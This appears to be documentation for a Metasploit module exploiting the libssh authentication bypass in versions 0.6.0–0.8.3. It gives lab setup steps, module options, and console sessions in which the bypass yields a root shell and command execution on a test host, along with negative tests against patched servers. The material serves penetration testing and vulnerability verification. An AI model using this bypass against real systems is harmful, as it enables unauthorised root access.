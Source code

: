 ## Intro

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `git apply -p1 /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Actions

```
Name     Description
----     -----------
Execute  Execute a command
Shell    Spawn a shell
```

## Options

**CMD**

Set this to a command or shell you want to execute. An `exec` channel
request will be sent instead of a `shell` channel request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Positive testing of shell commands using the `Execute` action:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set action Execute
action => Execute
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set cmd id; uname -a
cmd => id; uname -a
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] 172.28.128.3:2222 - Executed: id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against patched libssh 0.8.4:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```
